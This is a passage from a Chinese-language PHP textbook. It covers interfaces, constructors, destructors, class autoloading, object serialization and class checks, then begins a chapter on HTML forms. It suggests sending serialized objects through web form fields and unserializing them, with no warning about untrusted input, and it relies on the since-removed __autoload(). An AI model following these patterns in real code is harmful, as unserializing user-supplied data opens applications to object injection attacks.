<h1>Creating and Using an Interface</h1>
<?php
interface Sellable {
public function addStock( $numItems );
public function sellItem();
public function getStockLevel();
}
class Television implements Sellable {
private $_screenSize;
private $_stockLevel;
public function getScreenSize() {
return $this->_screenSize;
}

public function setScreenSize( $screenSize ) {
    $this->_screenSize = $screenSize;
}

public function addStock( $numItems ) {
    $this->_stockLevel += $numItems;
}

public function sellItem() {
    if ( $this->_stockLevel > 0 ) {
        $this->_stockLevel--;
        return true;
    } else {
        return false;
    }
}

public function getStockLevel() {
    return $this->_stockLevel;
}
}

class TennisBall implements Sellable {
    private $_color;
    private $_ballsLeft;

    public function getColor() {
        return $this->_color;
    }

    public function setColor( $color ) {
        $this->_color = $color;
    }

    public function addStock( $numItems ) {
        $this->_ballsLeft += $numItems;
    }

    public function sellItem() {
        if ( $this->_ballsLeft > 0 ) {
            $this->_ballsLeft--;
            return true;
        } else {
            return false;
        }
    }

    public function getStockLevel() {
        return $this->_ballsLeft;
    }
}

class StoreManager {
    private $_productList = array();

    public function addProduct( Sellable $product ) {
    $this->_productList[] = $product;
    }

    public function stockUp() {
    foreach ( $this->_productList as $product ) {
    $product->addStock( 100 );
    }
    }

}

$tv = new Television;
$tv->setScreenSize( 42 );
$ball = new TennisBall;
$ball->setColor( "yellow" );
$manager = new StoreManager();
$manager->addProduct( $tv );
$manager->addProduct( $ball );
$manager->stockUp();
echo "<p>There are ". $tv->getStockLevel() . " ". $tv->getScreenSize();
echo "-inch televisions and ". $ball->getStockLevel() . " ".
$ball->getColor();
echo " tennis balls in stock.</p>";
echo "<p>Selling a television...</p>";
$tv->sellItem();
echo "<p>Selling two tennis balls...</p>";
$ball->sellItem();
$ball->sellItem();
echo "<p>There are now ". $tv->getStockLevel() . " ". $tv->getScreenSize();
echo "-inch televisions and ". $ball->getStockLevel() . " ".
$ball->getColor();
echo " tennis balls in stock.</p>";
?>
</body>
</html>
```



图 8-7

### 工作原理

此脚本创建了一个名为 Sellable 的接口，其中包含三个方法声明：

```php
public function addStock( $numItems );
public function sellItem();
public function getStockLevel();
```

接下来，创建了两个类——Television 和 TennisBall。这些类互不相关，包含非常不同的属性和方法；例如，Television 包含一个私有的 $_screenSize 属性及访问该属性的方法，而 TennisBall 包含一个私有的 $_color 属性及相关方法。

然而，两个类都实现了 Sellable 接口。这意味着它们必须提供 Sellable 接口中声明的三个方法——addStock()、sellItem() 和 getStockLevel()——的实现代码。它们确实如此。顺便说一句，每个类记录库存的方式不同；Television 在 $_stockLevel 属性中记录库存水平，而 TennisBall 有一个 $_ballsLeft 属性。这完全无关紧要；从外部世界的角度来看，重要的是这些类正确实现了 Sellable 接口中的三个方法。

接下来，脚本创建了一个 StoreManager 类，用于存储和处理在线商店中待售的商品。该类包含一个私有的 $_productList 数组来存储不同类型的产品；一个 addProduct() 方法用于将产品对象添加到产品列表中；以及一个 stockUp() 方法，用于遍历产品列表，为每种产品类型增加 100 的库存。

stockUp() 调用每个对象的 addStock() 方法来添加库存；它知道这样的方法必须存在，因为它处理的对象实现了 Sellable 接口。请注意，addProduct() 使用类型提示来确保传递给它的所有对象都实现了 Sellable 接口（你可以将类型提示用于接口名和类名）：

```php
public function addProduct( Sellable $product ) {
```

最后，脚本测试了接口和类。它创建了一个新的 Television 对象 $tv，并将其屏幕尺寸设置为 42 英寸。同样，它创建了一个 TennisBall 对象 $ball，并将其颜色设置为黄色。然后，脚本创建了一个新的 StoreManager 对象 $manager，并使用 addProduct() 方法将 $tv 和 $ball 产品类型都添加到库存列表中。产品添加完成后，调用 $manager->stockUp() 为每种商品填充 100 单位的仓库库存。然后它显示每种商品的信息，调用 Television 和 TennisBall 类特有的函数（分别是 getScreenSize() 和 getColor()）以及 Sellable 接口声明的 getStockLevel() 函数。

然后脚本通过调用 $tv 和 $ball 对象的 sellItem() 方法来销售一些库存——请记住，该方法是 Sellable 接口要求的——并重新显示两种商品的信息，包括它们的新库存水平。


你可以从这个示例中看出，接口可以让你将毫不相关的类统一起来，以便用于特定目的——在此例中，是在线商店中销售它们。你也可以定义其他接口；例如，你可以创建一个 `Shippable` 接口来跟踪产品的运输，并让 `Television` 和 `TennisBall` 也实现该接口。请记住，一个类可以同时实现多个接口。

## 构造函数和析构函数

创建新对象时，通常在同时设置对象的某些方面很有用。例如，你可能希望将某些属性设置为初始值，从数据库获取一些信息来填充对象，或以某种方式注册对象。

同样，当对象即将消失时，清理对象的某些方面也很有用，例如关闭任何相关的打开文件和数据库连接，或取消设置其他相关对象。

像大多数 OOP 语言一样，PHP 提供了两个特殊方法来帮助完成这些任务。对象的 `constructor` 方法在对象创建后立即调用，而其 `destructor` 方法在对象从内存释放前立即调用。

在接下来的章节中，你将学习如何创建和使用构造函数和析构函数。

## 使用构造函数设置新对象

通常，当基于类创建新对象时，所发生的只是对象被创建出来。（通常你随后将对象分配给变量或将其传递给函数。）然而，通过在类中创建构造函数，你可以在创建对象时触发其他操作。

创建构造函数，只需将特殊名称 `__construct()` 的方法添加到你的类中。（即两个下划线，后跟单词 “construct”，再后跟括号。）PHP 在创建对象时会查找此特殊方法名；如果找到，则会调用该方法。

下面是一个简单示例：

```
class MyClass {
    function __construct() {
        echo "Whoa! I've come into being.<br />";
    }
}

$obj = new MyClass; // Displays "Whoa! I've come into being."
```

MyClass 类包含一个非常简单的构造函数，它只显示该消息。当代码随后从该类创建对象时，会调用构造函数并显示消息。

你也可以将参数传递给构造函数，就像普通方法一样。这对于在创建对象时将某些属性设置为初始值非常有用。下面的示例展示了这一原理的实际应用：

```
class Person {
    private $firstName;
    private $lastName;
    private $age;

    public function __construct( $firstName, $lastName, $age ) {
        $this->firstName = $firstName;
        $this->lastName = $lastName;
        $this->age = $age;
    }

    public function showDetails() {
        echo "$this->firstName $this->lastName, age $this->age<br />";
    }
}

$p = new Person( "Harry", "Walters", 28 );
$p->showDetails(); // Displays "Harry Walters, age 28"
```

Person 类包含三个私有属性和一个接受三个值的构造函数，将这三个属性设置为这些值。它还包含一个 showDetails() 方法，用于显示属性值。代码创建一个新的 Person 对象，传入三个属性的初始值。这些参数会直接传递给 __construct() 方法，随后相应地设置属性值。最后一行通过调用 showDetails() 方法显示属性值。

> 如果类包含构造函数，则仅当专门从该类创建对象时才会调用它；如果对象是从子类创建的，则仅调用子类的构造函数。但是，如果需要，你可以让子类使用 parent::__construct() 调用其父类的构造函数。

### 使用析构函数清理对象

析构函数在对象从内存中移除之前清理对象非常有用。例如，如果对象打开了几个文件，或包含应写入数据库的数据，那么在对象消失前关闭文件或写入数据是个好主意。

创建析构函数的方式与创建构造函数相同，只不过使用 __destruct() 而非 __construct()：

```
function __destruct() {
    // (Clean up here)
}
```

对象的析构函数在对象被删除前立即调用。这可能发生在对其的所有引用都消失时（例如，包含对象的最后一个变量被取消设置或超出作用域时），或者当脚本退出时，无论是正常退出还是因为某种错误。在每种情况下，对象在消失前都有机会通过其析构函数自行清理。

下面的示例展示了这一概念：

```
class Person {
    public function save() {
        echo "Saving this object to the database...<br />";
    }

    public function __destruct() {
        $this->save();
    }
}

$p = new Person;
unset( $p );
$p2 = new Person;
die( "Something's gone horribly wrong!<br />");
```

此代码显示以下输出：

```
Saving this object to the database...
Something's gone horribly wrong!
Saving this object to the database...
```

这个 Person 类包含一个析构函数，它在对象销毁前调用对象的 save() 方法将对象内容保存到数据库中。（在此示例中，实际上没有保存任何内容；而是显示消息 "Saving this object to the database..."。）

创建一个新的 Person 对象并将其存储在变量 $p 中。接下来，使用内置的 unset() 函数将 $p 从内存中移除。这样会移除对 Person 对象的唯一引用，因此将其删除。但是，在移除之前，会调用其 __destruct() 方法，显示消息 "Saving this object to the database..."。

接着，代码创建另一个 Person 对象，将其存储在变量 $p2 中。最后，代码使用内置的 die() 函数引发错误，导致脚本以消息 "Something's gone horribly wrong!" 结束。但是，在脚本最终终止前，会调用对象的析构函数，显示消息 "Saving this object to the database..."。

*与构造函数类似，当子对象被删除时，不会调用父类的析构函数，但你可以使用 parent::__destruct() 显式调用父类的析构函数。*

### 自动加载类文件

尽管本章中的许多示例脚本包含多个类定义，但通常将类保存在单独的脚本文件中（每个文件一个类）是个好主意。将每个类文件命名为其包含的类名称也很有帮助。例如，你可以创建一个名为 Person 的类，并将其存储在 classes 文件夹中的名为 Person.php 的文件里（这样你就知道 Person.php 包含一个类）。或者，如果你创建了一个名为 Fruit 的类，可以将其存储在名为 class.Fruit.php 的文件中。

然后，当你的脚本需要创建 Person 对象时，它可以包含 Person.php 文件来创建类，然后从那里创建对象：

```
<?php
require_once( "classes/Person.php" );
$p = new Person();
?>
```

require_once() 允许你将一个 PHP 脚本文件包含在另一个文件中，这意味着你可以将 PHP 应用程序拆分为小型、易于管理的脚本文件。你将在第 20 章中了解更多有关 require_once() 和相关函数的内容。

这种良好实践不仅有助于保持脚本的组织性和可维护性，还能让你利用 PHP 的一个便利功能：类自动加载。

使用自动加载时，你在脚本的某个位置创建一个 __autoload() 函数。此函数应接受一个类名作为参数。随后，每当脚本的其他部分尝试从不存在的类创建新对象时，__autoload() 会自动被调用，并传入类名。这为你的 __autoload() 函数提供了查找并包含类文件的机会，从而允许 PHP 引擎继续并创建对象。

下面是一个 __autoload() 函数示例：

```
function __autoload( $className ) {
$className = str_replace ( "..", "", $className );
require_once( "classes/$className.php" );
}
```

此函数将不存在的类名存储在 $className 参数中。随后，它会过滤该参数以确保其不包含 ".." 子字符串（攻击者可能利用该子字符串打开 classes 文件夹之上的文件或文件夹）。最后，它调用 PHP 的 require_once() 函数来加载 classes 文件夹中与缺失类同名的文件。这应该会创建该类，从而允许从此类创建对象。

例如，假设同一个脚本包含以下代码：

```
$p = new Person;
```

当 PHP 引擎遇到 new Person 构造时，它会检查 Person 类是否已定义。如果未定义，则会调用先前定义的 __autoload() 函数。这会反过来包含并运行 classes 文件夹中的 Person.php 文件，从而创建类并允许创建新的 Person 对象。


如果 PHP 引擎找不到 __autoload() 函数，或者你的 __autoload() 函数未能加载 Person 类，脚本将退出并显示 "Class ’Person’ not found" 错误。

## 将对象存储为字符串

PHP 中创建的对象在内存中以二进制数据存储。虽然你可以使用 PHP 变量、函数和方法来传递对象，但有时将对象传递给其他应用程序（例如，通过 Web 表单中的字段）很有用。

PHP 提供了两个函数来帮助你实现此功能：

- serialize() 将对象（包括属性、方法等一切内容）转换为文本字符串
- unserialize() 接收由 serialize() 创建的字符串，并将其转换回可用的对象

以下示例展示了这两个函数的实际运用：

```
class Person {
	public $age;
}

$harry = new Person();
$harry->age = 28;
$harryString = serialize( $harry );
echo "Harry is now serialized in the following string: '$harryString'<br />";
echo "Converting '$harryString' back to an object...<br />";
$obj = unserialize( $harryString );
echo "Harry's age is: $obj->age<br />";
```

此代码创建一个包含 $age 属性的简单 Person 类。然后它创建一个新的 Person 对象 $harry，并将其 age 属性设置为 28。它调用 serialize() 将对象转换为字符串并显示。最后，它将字符串转换回新对象 $obj，然后显示其 $obj->age 属性（28）。以下是运行脚本的结果：

哈利现在已序列化为以下字符串：‘O:6:"Person":1:{s:3:"age";i:28;}’
正在将 ‘O:6:"Person":1:{s:3:"age";i:28;}’ 转换回对象...
哈利的年龄是：28

你实际上可以对任何 PHP 值（而不仅仅是对象）使用 serialize() 和 unserialize()。但是，它们对对象和数组尤其有用，因为这些结构可能相当复杂，且不容易通过其他方式转换为字符串。

此外，当你序列化对象时，PHP 会尝试调用对象内部名为 __sleep() 的方法。你可以使用此方法在对象序列化前执行所需的任何操作。同样，你可以创建在对象反序列化时被调用的 __wakeup() 方法。

__sleep() 在序列化对象前用于清理对象，这与你在析构方法中进行清理的方式相同。例如，你可能需要关闭数据库句柄、文件等。此外，__sleep() 还有一个绝招。PHP 期望你的 __sleep() 方法返回一个数组，其中包含要在序列化字符串中保留的属性名称。你可以利用此特性来限制字符串中存储的属性数量——如果你的对象包含许多无需存储的属性，这非常有用。

以下是示例：

```php
class User {
    public $username;
    public $password;
    public $loginsToday;

    public function __sleep() {
        // (Clean up: close database handles, etc)
        return array( "username", "password" );
    }
}

$user = new User();
$user->username = "harry";
$user->password = "monkey";
$user->loginsToday = 3;
echo "The original user object:<br />";
print_r( $user );
echo "<br /><br />";
echo "Serializing the object...<br /><br />";
$userString = serialize( $user );
echo "The user is now serialized in the following string:<br />";
echo "UserString<br /><br />";
echo "Converting the string back to an object...<br /><br />";
$obj = unserialize( $userString );
echo "The unserialized object:<br />";
print_r( $obj );
echo "<br />";
```

此代码输出以下内容：

```
The original user object:
User Object ( [username] => harry [password] => monkey [loginsToday] => 3 )

Serializing the object...

The user is now serialized in the following string:
O:4:"User":2:{s:8:"username";s:5:"harry";s:8:"password";s:6:"monkey";}

Converting the string back to an object...

The unserialized object:
User Object ( [username] => harry [password] => monkey [loginsToday] => )
```

在此示例中，我们不关心保存用户今日登录次数，因此 __sleep() 方法仅返回 "username" 和 "password" 属性名称。请注意，序列化字符串不包含 $loginsToday 属性。此外，当从字符串恢复对象时，$loginsToday 属性为空。

在实际场景中，请确保不要以纯文本字符串传输敏感信息（如用户名和密码），如果存在数据被截获或被不可信第三方读取的风险的话。

如果你确实需要保留对象的所有属性，可以使用内置的 get_object_vars() 函数获取对象中所有属性的关联数组，然后使用 array_keys() 函数仅获取属性名称数组，接着可从 __sleep() 方法中返回该数组：

```php
class User {
    public $username;
    public $password;
    public $loginsToday;

    public function __sleep() {
    // (Clean up; close database handles, etc)
    return array_keys( get_object_vars( $this ) );
    }
}
```

最后，以下示例展示了 __wakeup() 方法的实际运用：

```php
class User {
    public function __wakeup() {
    echo "Yawn... what's for breakfast?<br />";
    }
}

$user = new User();
$userString = serialize( $user );
$obj = unserialize( $userString ); // Displays "Yawn... what's for breakfast?"
```

## 确定对象的类

本章前面你学过，可以在方法和函数参数中使用提示，以确保传递的是正确类的对象。不过，有时你可能需要显式检查正在使用的特定对象的类。例如，你可能想要检查数组中的所有对象是否属于某个类，或根据对象的类对其进行不同处理。

要了解对象的类，可以使用 PHP 内置的 get_class() 函数，如下所示：

```php
class MyClass {
}

$obj = new MyClass();
echo get_class( $obj ); // Displays "MyClass"
```

如果你想了解对象确切属于哪个类，get_class() 很有用。不过，通常更有用的是了解对象是否派生自给定类。请考虑以下示例：

```
class Fruit {
}

class SoftFruit extends Fruit {
}

class HardFruit extends Fruit {
}

function eatSomeFruit( array $fruitToEat ) {
    foreach ( $fruitToEat as $itemOfFruit ) {
        if ( get_class( $itemOfFruit ) == "SoftFruit" || get_class( $itemOfFruit ) == "HardFruit" ) {
            echo "Eating the fruit - yummy!<br />";
        }
    }
}

$banana = new SoftFruit();
$apple = new HardFruit();
eatSomeFruit( array( $banana, $apple ) );
```

在这种情况下，eatSomeFruit() 函数愿意吃任何水果，无论是软的还是硬的，因此它真正关心的是传递给它的对象是否派生自 Fruit 类。不过，get_class() 仅返回对象的具体类，因此 eatSomeFruit() 不得不使用相当笨拙的 if 表达式来判断它正在处理的对象是否是水果。

幸运的是，PHP 提供了一个有用的 instanceof 运算符，可按如下方式使用：

```
if ( $object instanceof ClassName ) { ...
```

如果 $object 的类是 ClassName，或者 $object 的类派生自 ClassName，则 instanceof 返回 true。否则，返回 false。

因此，你可以用更优雅的方式重写前面的 eatSomeFruit() 函数：

```
function eatSomeFruit( array $fruitToEat ) {
    foreach ( $fruitToEat as $itemOfFruit ) {
        if ( $itemOfFruit instanceof Fruit ) {
            echo "Eating the fruit - yummy!<br />";
        }
    }
}
```

## 总结

本章探讨了 PHP 中面向对象编程广阔而精彩的世界。你了解了面向对象方法的一些好处，并探讨了以下 OOP 主题：

- OOP 的基本构建块：类、对象、属性和方法
- 在 PHP 中创建类和对象。你了解了属性和方法可见性，以及如何创建和访问属性和方法。在此过程中，你学习了静态属性和方法；类常量；参数和返回值；如何从方法内部访问属性；以及如何使用提示来检查传递给方法和函数的对象的类
- 封装的概念——即对象应尽可能自包含的理念——以及在创建自己的类时如何将此付诸实践
- 可用于重载对象的三个特殊方法：`__get()`、`__set()` 和 `__call()`。你学习了如何使用这些方法来拦截属性访问和方法调用，从而创建非常强大且灵活的类
- 继承，OOP 中最重要、最强大的方面之一。你学习了如何创建子类；如何重写父类中的方法；如何访问父类方法；如何使用 `final` 关键字防止继承；以及如何为自己和其他开发者使用抽象类和接口
- 如何使用构造函数和析构函数来初始化和清理对象
- 使用 PHP 的 `__autoload()` 函数自动即时检索类文件
- 使用 PHP 实用的 `serialize()` 和 `unserialize()` 函数将对象转换为字符串——反之亦然
- 如何使用 `get_class()` 和 `instanceof` 了解对象的类

尽管本章已为你编写完整的面向对象应用程序提供了足够的知识，但关于 PHP 中面向对象编程还有更多内容需要学习，包括反射、后期静态绑定和对象克隆。要阅读这些更高级的主题，请查看 PHP 语言参考中的“类和对象”部分，网址为 `http://www.php.net/manual/en/langref.php`。你也可以尝试本章末尾的练习，将你的 OOP 技能付诸实践。这些练习的答案可在附录 A 中找到。

你现在已学习 PHP 语言的基本概念。在本书的第三部分（也是最后一部分）中，你将把所有这些理论付诸实践，并学习构建真实世界 PHP Web 应用程序的技术。下一章将通过创建和处理 Web 表单来开启这一进程，Web 表单在交互式网站中经常被广泛使用。


## Exercises

- 1. 编写一个 Calculator 类，它可以存储两个值，然后按需求对它们进行加、减、乘或除运算。例如：

```
$calc = new Calculator( 3, 4 );
echo $calc->add(); // Displays "7"
echo $calc->multiply(); // Displays "12"
```

- 2. 创建另一个类 CalcAdvanced，它扩展（继承自）Calculator 类。
CalcAdvanced 应该能够存储一个或两个值：

```
$ca = new CalcAdvanced( 3 );
$ca = new CalcAdvanced( 3, 4 );
```

CalcAdvanced 还应添加以下方法：

- [ ] pow() 返回将第一个数字（底数）提升到第二个数字幂次的结果
- [ ] sqrt() 返回第一个数字的平方根
- [ ] exp() 返回 e 的第一个数字次幂

(提示：PHP 包含名为 pow()、sqrt() 和 exp() 的内置函数。)

# 第三部分

# 在实践中使用 PHP

- **第 9 章:** 使用 PHP 处理 HTML 表单
- **第 10 章:** 使用查询字符串、Cookie 和 会话 保持状态
- **第 11 章:** 使用文件和目录
- **第 12 章:** 数据库和 SQL 简介
- **第 13 章:** 使用 PHP 从 MySQL 检索数据
- **第 14 章:** 使用 PHP 操作 MySQL 数据
- **第 15 章:** 使用 PEAR 简化你的工作
- **第 16 章:** PHP 与外部世界
- **第 17 章:** 使用 PHP 生成图像
- **第 18 章:** 使用正则表达式进行字符串匹配
- **第 19 章:** 使用 XML
- **第 20 章:** 编写高质量代码

## 使用 PHP 处理 HTML 表单

你现在已经学习了 PHP 的基础知识。你知道 PHP 脚本的工作原理，并研究了语言的重要构建块，包括变量、运算符、决策、循环、字符串、数组、函数和对象。

现在是时候开始使用 PHP 构建现实世界的应用程序了，大多数 PHP 应用程序的一个关键部分是能够接受使用该应用程序的人的输入。到目前为止，你创建的所有脚本都不允许任何用户输入；要运行脚本，你只需在 Web 浏览器中输入其 URL 并观察它运行即可。通过添加提示用户输入并读取该输入的功能，你开始使你的 PHP 脚本真正交互式。

从 Web 应用程序用户接收输入的最常见方式之一是通过 HTML 表单。你可能自己填写过许多 HTML 表单。常见示例包括联系表单（让你给网站所有者发送电子邮件）；订单表单（让你从在线商店订购产品）；以及基于 Web 的电子邮件系统（让你使用 Web 浏览器发送和接收电子邮件）。

在本章中，你将学习如何使用 PHP 构建交互式 Web 表单。你将学习：

- 创建 HTML 表单
- 编写 PHP 脚本以捕获从表单发送的数据
- 表单数据周围的一些安全问题
- 如何处理空表单字段，以及一次发送多个值的表单字段
- 使用 PHP 脚本生成 Web 表单，使你的表单具有很大的灵活性
- 创建带有内置错误检查的表单
- [ ] 如何使用隐藏表单字段创建用户友好的三阶段注册表单
- [ ] 创建允许用户上传文件的表单
- [ ] 如何使用页面重定向使你的表单更流畅、更安全

学完本章后，你将能够使用 Web 表单使你的 PHP 脚本更加有用和灵活。

### HTML 表单的工作原理

在研究 PHP 方面之前，快速了解一下 HTML 表单的构建方式。（如果你已经熟悉构建 HTML 表单，可能希望跳过本节。）

HTML 表单，或 Web 表单，只是嵌入在标准 Web 页面中的 HTML 元素集合。通过添加不同类型的元素，你可以创建不同的表单字段，例如文本字段、下拉菜单、复选框等等。

所有 Web 表单都以开始 `<form>` 标签开始，以结束 `</form>` 标签结束：

```
<form action="myscript.php" method="post">
  <!-- Contents of the form go here -->
</form>
```

顺便说一句，此示例中的第二行代码是 HTML 注释 — `<!--` 和 `-->` 之间的所有内容都会被 Web 浏览器忽略。

请注意，开始 `<form>` 标签中有两个属性：

- [ ] action 告诉 Web 浏览器在用户填写并提交表单时将表单数据发送到哪里。这应该是一个绝对 URL（例如 http://www.example.com/myscript.php）或相对 URL（例如 myscript.php、/myscript.php 或 ../scripts/myscript.php）。指定 URL 处的脚本应能够接受和处理表单数据；稍后将详细介绍。
- [ ] method 告诉浏览器如何发送表单数据。可以使用两种方法：get 适用于发送少量数据，并使用户轻松重新提交表单；post 可以发送大量表单数据。

创建基本表单元素后，你可以使用各种元素填充它，以创建表单中的字段和其他控件（如果需要，还可以包含其他 HTML 元素，如标题、段落和表格）。

### 试一试：创建 HTML 表单

在此示例中，你将创建一个包含各种表单字段的 Web 表单。你不仅将学习如何创建各种类型的表单字段，还可以在 Web 浏览器中查看字段的外观和工作方式。

将以下文件另存为 web_form.html 到你的文档根目录，然后在浏览器中打开它以查看表单：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>An HTML Form</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>An HTML Form</h1>
<form action="" method="get">
<div style="width: 25em;">
<label for="textField">A text input field</label>
<input type="text" name="textField" id="textField" value="" />
<label for="passwordField">A password field</label>
<input type="password" name="passwordField" id="passwordField"
value="" />
<label for="checkboxField">A checkbox field</label>
<input type="checkbox" name="checkboxField" id="checkboxField"
value="yes" />
<label for="radioButtonField1">A radio button field</label>
<input type="radio" name="radioButtonField" id="radioButtonField1"
value="radio1" />
<label for="radioButtonField2">Another radio button</label>
<input type="radio" name="radioButtonField" id="radioButtonField2"
value="radio2" />
<label for="submitButton">A submit button</label>
<input type="submit" name="submitButton" id="submitButton"
value="Submit Form" />
<label for="resetButton">A reset button</label>
<input type="reset" name="resetButton" id="resetButton"
value="Reset Form" />
<label for="fileSelectField">A file select field</label>
<input type="file" name="fileSelectField" id="fileSelectField"
value="" />
<label for="hiddenField">A hidden field</label>
<input type="hidden" name="hiddenField" id="hiddenField" value="" />
<label for="imageField">An image field</label>
<input type="image" name="imageField" id="imageField" value=""
src="asterisk.gif" width="23" height="23" />
<label for="pushButton">A push button</label>
<input type="button" name="pushButton" id="pushButton"
value="Click Me" />
<label for="pullDownMenu">A pull-down menu</label>
<select name="pullDownMenu" id="pullDownMenu" size="1">
<option value="option1">Option 1</option>
<option value="option2">Option 2</option>
<option value="option3">Option 3</option>
</select>
<label for="listBox">A list box</label>
<select name="listBox" id="listBox" size="3">
<option value="option1">Option 1</option>
<option value="option2">Option 2</option>
<option value="option3">Option 3</option>
</select>
<label for="multiListBox">A multi-select list box</label>
<select name="multilistBox" id="multilistBox" size="3"
multiple="multiple">
<option value="option1">Option 1</option>
<option value="option2">Option 2</option>
<option value="option3">Option 3</option>
</select>
<label for="textAreaField">A text area field</label>
<textarea name="textAreaField" id="textAreaField" rows="4"
cols="50"></textarea>
</div>
</form>
</body>
</html>
```

图 9-1 显示了表单的外观。（在此图中，图像字段使用了星号图像；你当然需要使用自己的图像。）尝试单击每个控件以查看其功能。




图 9-1

## 工作原理

这个 XHTML 网页包含了你可能遇到的最常见的表单控件类型。首先，创建表单本身：

```
<form action="" method="get">
```

注意，表单是使用 get 方法创建的。这意味着表单字段名称和值将通过 URL 发送到服务器。你很快将了解更多关于 get 和 post 方法的内容。与此同时，空的 action 属性告诉浏览器将表单发回同一页面（web_form.html）。在实际表单中，此属性将包含表单处理脚本的 URL。

接下来，依次创建每个表单控件。大多数控件都有一个 name 属性，它是存储数据的字段名称，以及一个 value 属性，它包含固定的字段值，或者对于允许用户输入自身值的字段，包含默认字段值。你可以将字段名称和字段值视为类似于关联数组的键和值。

大多数控件还有一个包含字段标签的相关 label 元素。此文本向用户描述字段并提示他们在字段中输入数据。每个 label 使用其 for 属性与控件关联，该属性与控件元素中相应的 id 属性匹配。

创建的表单字段包括：

- 文本输入字段 —— 这允许用户输入一行文本。你可以使用 `value` 属性可选地用初始值预填充字段（如果你不想这样做，请为 `value` 属性指定空字符串，或完全省略该属性）：

```
<label for="textField">A text input field</label>
<input type="text" name="textField" id="textField" value="" />
```

- 密码字段 —— 其工作方式类似于文本输入字段，只是输入的文本不会显示。当然，这旨在用于输入密码等敏感信息。同样，你可以使用 `value` 属性预填充字段，但不建议这样做，因为查看网页源代码时可能会泄露密码：

```
<label for="passwordField">A password field</label>
<input type="password" name="passwordField" id="passwordField" value="" />
```

- 复选框字段 —— 这是一个简单的切换开关；它可以是开或关。`value` 属性应包含复选框被选中时将发送到服务器的值（如果未选中复选框，则不会发送任何内容）：

```
<label for="checkboxField">A checkbox field</label>
<input type="checkbox" name="checkboxField" id="checkboxField" value="yes" />
```

你可以通过向 input 标签添加属性 `checked="checked"` 来预选复选框 — 例如：`<input type="checkbox" checked="checked" ... />`。

通过创建具有相同 name 属性的多个复选框字段，你可以允许用户为同一字段选择多个值。（你将在本章后面学习如何处理多个字段值的 PHP 代码。）

- 两个单选按钮字段 —— 单选按钮通常被放置在至少包含两个按钮的组中。组中所有按钮都有相同的 `name` 属性。每个组只能选择一个按钮。与复选框一样，使用 `value` 属性来存储按钮被选中时发送到服务器的值。请注意，`value` 属性对于复选框和单选按钮是必需的，对于其他字段类型是可选的：

```
<label for="radioButtonField1">A radio button field</label>
<input type="radio" name="radioButtonField" id="radioButtonField1" value="radio1" />
<label for="radioButtonField2">Another radio button</label>
<input type="radio" name="radioButtonField" id="radioButtonField2" value="radio2" />
```

你可以使用与预选复选框相同的技术来预选单选按钮。

- 提交按钮 —— 单击此类按钮会将填写好的表单发送到服务器端脚本进行处理。`value` 属性存储显示在按钮内部的文本标签（单击按钮时该值也会发送到服务器）：

```
<label for="submitButton">A submit button</label>
<input type="submit" name="submitButton" id="submitButton" value="Submit Form" />
```

- 重置按钮 —— 此类按钮将所有表单字段重置为其初始值（通常为空）。value 属性包含按钮标签文本：

```
<label for="resetButton">A reset button</label>
<input type="reset" name="resetButton" id="resetButton" value="Reset Form" />
```

- 文件选择字段 —— 这允许用户选择其硬盘上的文件以上传到服务器（参见本章后面的“创建文件上传表单”）。浏览器通常会忽略 value 属性：

```
<label for="fileSelectField">A file select field</label>
<input type="file" name="fileSelectField" id="fileSelectField" value="" />
```

- 隐藏字段 —— 此类字段在页面上不显示；它只是存储 value 属性中指定的文本值。隐藏字段非常适合将额外信息从表单传递到服务器，如你在本章后面所见：

```
<label for="hiddenField">A hidden field</label>
<input type="hidden" name="hiddenField" id="hiddenField" value="" />
```

- 图像字段 —— 其工作方式类似于提交按钮，但允许你使用自己的按钮图形而不是标准的灰色按钮。你使用 src 属性指定按钮图形的 URL，并使用 width 和 height 属性指定图形的宽度和高度（以像素为单位）。与提交按钮一样，value 属性包含单击按钮时发送到服务器的值：

```
<label for="imageField">An image field</label>
<input type="image" name="imageField" id="imageField" value="" src="asterisk.gif" width="23" height="23" />
```

- 推送按钮 —— 此类按钮单击时默认不执行任何操作，但你可以使用 JavaScript 使此类按钮在浏览器中触发各种事件。value 属性指定要在按钮中显示的文本标签：

```
<label for="pushButton">A push button</label>
<input type="button" name="pushButton" id="pushButton" value="Click Me" />
```

